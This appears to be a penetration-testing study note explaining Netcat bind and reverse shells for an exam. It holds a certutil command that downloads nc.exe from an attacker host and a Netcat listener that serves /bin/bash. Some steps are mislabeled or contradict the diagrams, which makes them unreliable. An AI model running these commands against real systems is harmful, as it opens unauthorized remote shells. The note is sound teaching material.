

# Netcat Shells

> [!info] Navigation
> [[Home]] | [[Master Table of Contents]] | [[Exam Cram Guide]] | [[Command Dashboard]] | [[Curated External Sources]] | [[Visual Diagram Index]]


## Sections in This Note
- [[#Netcat|Netcat]]
- [[#Bind Shell|Bind Shell]]
- [[#Reverse Shell|Reverse Shell]]

---

## Netcat

Netcat (aka "TCP/IP Swiss Army Knife") is a networking utility used to read and write data to network connections using TCP or UDP. Available for both *NIX and Windows, making it useful for cross-platform engagements.

Netcat uses a client-server architecture with two modes:
- **Client mode** — connects to any TCP/UDP port or a Netcat listener (server)
- **Server mode** — listens for connections from clients on a specific port

Netcat functionality for penetration testers:
- Banner Grabbing
- Port Scanning
- Transferring Files
- Bind/Reverse Shells

**To establish a netcat listener:**
```
nc -nv 10.4.20.244 80
```

```
cd /usr/share/windows-binaries
python -m SimpleHTTPServer 80

# In Windows
certutil -urlcache -f http://10.10.3.3/nc.exe nc.exe

# In Linux
nc -nvlp 1234

# In Windows
nc.exe -nv 10.10.3.3 1234
```

## Bind Shell

A bind shell is a type of remote shell where the attacker connects directly to a listener on the target system, allowing execution of commands on the target system.

```
Attacker (Netcat Client)  ──BIND SHELL──►  Target (Netcat Listener)
```
"Attacker connects to Netcat listener on target"

```
cd /usr/share/windows-binaries
python -m SimpleHTTPServer 80

# In Windows
certutil -urlcache -f http://10.10.3.3/nc.exe nc.exe

# In Windows
nc.exe -nv 10.10.3.3 1234

# In Linux
nc -nv 10.4.21.221 1234
nc -nvlp 1234 -e /bin/bash
```

We can now connect to the bind shell listener on the Kali Linux system from the Windows system:
```
nc.exe -nv 10.10.3.2 1234
```

## Reverse Shell

[Reverse shell cheatsheet] | [Reverse shell generator]

A reverse shell is a type of remote shell where the target connects directly to a listener on the attacker's system, allowing execution of commands on the target system.

```
Target (Netcat Client)  ──REVERSE SHELL──►  Attacker (Netcat Listener)
```
"Target connects to Netcat listener on Attacker system"

---

## Windows Exploitation

## Visual Diagram


## Related
- [[Exam Cram Guide]]
- [[Command Dashboard]]
